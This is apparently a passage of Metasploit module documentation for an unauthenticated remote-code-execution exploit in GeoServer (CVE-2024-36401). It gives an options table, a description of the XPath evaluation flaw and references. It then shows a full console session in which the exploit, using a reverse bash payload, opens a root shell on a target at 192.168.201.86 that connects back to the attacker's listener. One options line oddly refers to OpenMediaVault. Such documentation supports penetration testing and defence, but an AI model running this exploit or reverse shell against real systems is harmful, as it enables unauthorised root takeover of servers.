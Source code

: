 ```msf
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMediaVault web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                       local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  GeoServer is an open-source software server written in Java that provides
  the ability to view, edit, and share geospatial data.
  It is designed to be a flexible, efficient solution for distributing geospatial data
  from a variety of sources such as Geographic Information System (GIS) databases,
  web-based data, and personal datasets.
  In the GeoServer versions < 2.23.6, >= 2.24.0, < 2.24.4 and >= 2.25.0, < 2.25.1,
  multiple OGC request parameters allow Remote Code Execution (RCE) by unauthenticated users
  through specially crafted input against a default GeoServer installation due to unsafely
  evaluating property names as XPath expressions.
  An attacker can abuse this by sending a POST request with a malicious xpath expression
  to execute arbitrary commands as root on the system.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-36401
  https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv
  https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401
  https://attackerkb.com/topics/W6IDY2mmp9/cve-2024-36401


View the full module info with the info -d command.
```
###  GeoServer 2.23.5 on x64 Ubuntu 22.04 - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401)  > set rhosts 192.168.201.86
rhosts => 192.168.201.86
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401)  > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 7 opened (192.168.201.8:4444 -> 192.168.201.86:54072) at 2024-07-11 16:09:30 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
```